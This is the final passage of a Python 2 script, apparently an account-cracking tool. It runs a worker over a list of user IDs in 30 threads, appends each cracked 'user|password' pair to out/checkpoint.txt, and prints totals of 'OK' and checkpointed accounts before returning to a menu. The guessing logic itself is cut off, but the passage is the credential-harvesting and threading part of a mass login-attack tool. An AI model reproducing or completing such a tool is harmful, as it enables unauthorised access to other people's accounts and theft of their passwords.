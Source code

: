 																	cek = open("out/checkpoint.txt", "a")

																	cek.write(user+"|"+pass7+"\n")

																	cek.close()

																	cekpoint.append(user+pass7)

																	

															

		except:

			pass

		

	p = ThreadPool(30)

	p.map(main, id)

	print 42*"\033[1;96m="

	print '\033[1;96m[\033[1;97m \033[1;96m] \033[1;92mProcess Has Been Completed \033[1;97m....'

	print"\033[1;96m[+] \033[1;92mTotal OK\x1b[1;93mCP \033[1;91m: \033[1;92m"+str(len(oks))+"\033[1;97m/\033[1;93m"+str(len(cekpoint))

	print("\033[1;96m[+] \033[1;92mCP File Has Been Saved \033[1;91m: \033[1;97mout/checkpoint.txt")

	raw_input("\n\033[1;96m[\033[1;97mBack\033[1;96m]")

	menu()

if __name__ == '__main__':

	login()
